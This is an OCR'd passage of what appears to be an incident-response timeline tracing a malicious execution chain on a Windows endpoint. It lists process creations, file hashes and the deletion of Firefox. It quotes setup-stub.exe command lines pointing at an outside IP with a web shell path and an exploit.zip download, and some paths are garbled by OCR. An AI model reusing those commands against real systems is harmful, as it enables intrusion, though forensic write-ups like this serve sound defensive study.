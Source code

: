- **Timestamp:** `2025-10-12T05:54:48.7170084Z `
- **Event:**: `ProcessCreated - download.exe `
- **Location:** `C:\Users\employee0\AppData\Local\Temp\nso90D.tmp\download.exe`
- **SHA256:**: `b5284b0e4a5f867a1342a4bc5a7ca21b9c13c49bea1b48624b691473d14dec78`
- **Command:**`"download.exe" /LaunchedFromStub /INI=C:\Users\EMPLOY~1\AppData\Local\Temp\nso90D.tmp\config.ini`
- Second `download.exe` execution

- **Timestamp:** 2025-10-12T05:55:14.8912748Z
- **Event:** `FileDeleted - Temporary firefox.exe files`
- Cleanup phase


### 4. Third and Most Malicious Execution Chain

- **Timestamp:** `2025-10-12T05:55:21.0304675Z`
- **Event:**: `ProcessCreated - setup-stub.exe`
- **Location:** `C:\Users\employee0\AppData\Local\Temp\7zS847CA906\setup-stub.exe`
- **Command:** `setup-stub.exe -no-remote -profile "C:\Users\employee®@\Downloads\Temp\MalProfile" http://172.203.80.23/admin/shell.php`
- Critical: Direct reference to web shell (shell.php)

- **Timestamp:** `2025-10-12T05:55:21.0304675Z`
- **Event:**: `ProcessCreated - setup-stub.exe`
- **Location:** `C:\Users\employee0\AppData\Local\Temp\7zS8F22E6D6\setup-stub.exe`
- **SHA256:**: `181baa1380e339d8acb6b067c33dd36a5f56e57ee05f7e524b752affaafa75ac`
- Command: `setup-stub.exe -no-remote -profile "C:\Users\employee®@\Downloads\Temp\MalProfile" http://172.203.80.23/exploit.zip`

- **Timestamp:** `2025-10-12T05:55:24.8206767Z`
- **Event:**: `FileDeleted - firefox.exe`
- **Location:**  `C:\Program Files\Mozilla Firefox\firefox.exe`
**Critical:** Legitimate Firefox executable deleted
**Initiating Process:** `setup-stub.exe -no-remote -profile "C:\Users\employee®@\Downloads\Temp\MalProfile" http://172.203.80.23/admin/shell.php`
- Direct evidence of malicious activity

- **Timestamp:** `2025-10-12T05:55:31.4027468Z`
- **Event:**: `ProcessCreated - download.exe`
- **Location:** `C:\Users\employee0\AppData\Local\Temp\nss9E77.tmp\download.exe`
- Command: `"download.exe" /LaunchedFromStub /INI=C:\Users\EMPLOY~1\AppData\Local\Temp\nss9E77.tmp\config.ini`
- `Third download.exe execution`

- **Timestamp:** `2025-10-12T05:55:34.7619558Z`
- **Event:**: `FileCreated - Temporary firefox files`
- **Location:** C:\Users\employee0\AppData\Local\Temp\7zS42D037B6\core\

- **Timestamp:** 2025-10-12T05:55:48.2234446Z
- **Event:**: FileCreated - Firefox shortcuts and program files
- Final installation phase

- **Timestamp:** `2025-10-12T05:55:59.6025505Z`
- **Location:** `C:\Users\employee0\AppData\Local\Temp\nss9E77.tmp\download.exe`
- **Event:**: `Temporary firefox.exe files`
Final cleanup
---
Attack Chain Flow
